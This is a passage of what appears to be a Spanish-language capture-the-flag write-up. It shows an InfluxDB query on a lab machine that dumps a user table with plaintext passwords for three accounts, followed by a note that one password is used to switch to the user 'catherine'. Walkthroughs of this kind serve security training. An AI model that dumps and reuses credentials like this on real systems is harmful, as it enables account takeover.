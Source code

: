 ```
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
[admin@127.0.0.1/devzat] $ SELECT * FROM "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
[
```

Con la `contraseña` obtenida nos `convertimos` en el usuario `catherine`
